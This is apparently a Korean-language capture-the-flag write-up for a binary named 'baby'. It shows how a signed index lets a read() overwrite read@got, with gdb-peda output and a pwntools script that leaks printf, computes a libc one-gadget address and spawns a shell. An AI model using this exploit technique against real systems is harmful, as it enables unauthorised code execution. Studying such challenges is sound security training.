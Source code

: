  read() 함수를 통해 3번의 입력을 받는데 index 변수의 타입이 "long long"이기 때문에 음수 저장이 가능하다. 따라서 2번째 입력값을 원하는 주소에 입력할 수 있다.  

 2번째 read() 함수 수행 전 [rbp-0x10](&index)와 0x601080(asdf)를 더한 값을 2번째 인자로 전달하고 있다.  

1번째 값으로 0x4141414141414141(AAAAAAAA) 입력 시 0x601080을 더하여 0x4141414141a151c1 위치에 2번째 값을 쓸 수 있다. 

```
...
   0x00000000004006c7 <+81>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006cb <+85>:	add    rax,0x601080
   0x00000000004006d1 <+91>:	mov    edx,0x8
   0x00000000004006d6 <+96>:	mov    rsi,rax
   0x00000000004006d9 <+99>:	mov    edi,0x0
   0x00000000004006de <+104>:	call   0x400540 <read@plt>
...
gdb-peda$ p $rax
$1 = 0x4141414141a151c1
```

read@got 영역에 One Gadget  주소를 저장하면 Shell을 획득할 수 있다.  
0x601020(read@got) - 0x601080(asdf) = 0xffffffa0

```
gdb-peda$ elfsymbol
Found 4 symbols
printf@plt = 0x400530
read@plt = 0x400540
__libc_start_main@plt = 0x400550
dlsym@plt = 0x400560
gdb-peda$ x/3i 0x400540
   0x400540 <read@plt>:	jmp    QWORD PTR [rip+0x200ada]        # 0x601020
   0x400546 <read@plt+6>:	push   0x1
   0x40054b <read@plt+11>:	jmp    0x400520
gdb-peda$ p 0x601020-0x601080
$2 = 0xffffffa0
```

## **Exploit Code**

```python
# Exploit Code
from pwn import *

p = process('./baby')
gdb.attach(p)
printf = int(p.recvline().split(' ')[3],16)

libBase = printf - 0x55800
oneGadget = libBase + 0x4526a

log.info("libBase: " + str(hex(libBase)))
log.info("oneGadget: " + str(hex(oneGadget)))

p.sendline(p64(0xffffffffffffffa0))
raw_input('1')
p.sendline(p64(oneGadget))
p.interactive()
```
